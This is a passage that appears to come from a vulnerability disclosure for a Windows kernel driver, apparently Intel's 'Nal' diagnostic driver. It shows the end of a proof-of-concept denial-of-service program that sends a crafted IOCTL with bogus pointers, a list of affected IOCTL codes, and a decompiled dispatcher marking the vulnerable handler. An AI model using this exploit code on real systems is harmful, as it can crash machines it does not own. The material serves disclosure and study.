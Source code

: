 ```cpp
    }

    printf("\nPress any key to DoS..");
    _getch();

    bret = 0;
    // DeviceIoControl(hDevice, dwIoControlCode, lpInBuffer, nInBufferSize, lpOutBuffer, nOutBufferSize, lpBytesReturned, lpOverlapped)
    // Affected IOCTL codes: 0x80862013, 0x8086200B, 0x8086200F, 0x80862007
  
    if (!DeviceIoControl(hDevice, 0x80862013, (LPVOID)0xdeadbeef, 0x0, (LPVOID)0xdeadbeef, 0x0, &bret, NULL))
    {
        printf("DeviceIoControl Error - bytes returned %#x\n", bret);
    }

    CloseHandle(hDevice);
    return 0;
}
```

 

```cpp
__int64 __fastcall IOCTLHandler(__int64 a1, struct _IRP *IRequestPacket)
{
  _IO_STACK_LOCATION *IOStackLocation; // rax
  __int64 DeleteHandle; // rcx
  struct _IRP *IoRequestPacketCopy; // rdi
  __int64 v5; // rdx
  unsigned int result; // ebx

  IOStackLocation = IRequestPacket->Tail.Overlay.CurrentStackLocation;
  DeleteHandle = (__int64)IOStackLocation->Parameters.SetFile.DeleteHandle;
  IoRequestPacketCopy = IRequestPacket;
  v5 = IOStackLocation->Parameters.Read.ByteOffset.LowPart;
  if ( DeleteHandle )
  {
    switch ( (_DWORD)v5 )
    {
      case 0x80862007:
        result = IOCTL0x80862007(DeleteHandle); <-----------------
        break;
      case 0x8086200B:
        result = sub_11A60(DeleteHandle);
        break;
      case 0x8086200F:
        result = sub_11330(DeleteHandle);
        break;
      case 0x80862013:
        result = sub_13FA0();
        break;
      default:
        result = 0xC000000D;
        DebugPrintWrapper("Nal Windows DriverDeviceControl: Invalid IOCTL code 0x%0x\n");
        break;
    }
  }
  else
  {
    DebugPrintWrapper("NalDeviceControl: InputBuffer was NULL\n", v5);
    result = 0xC000000D;
  }
  IoRequestPacketCopy->IoStatus.Information = 0i64;
```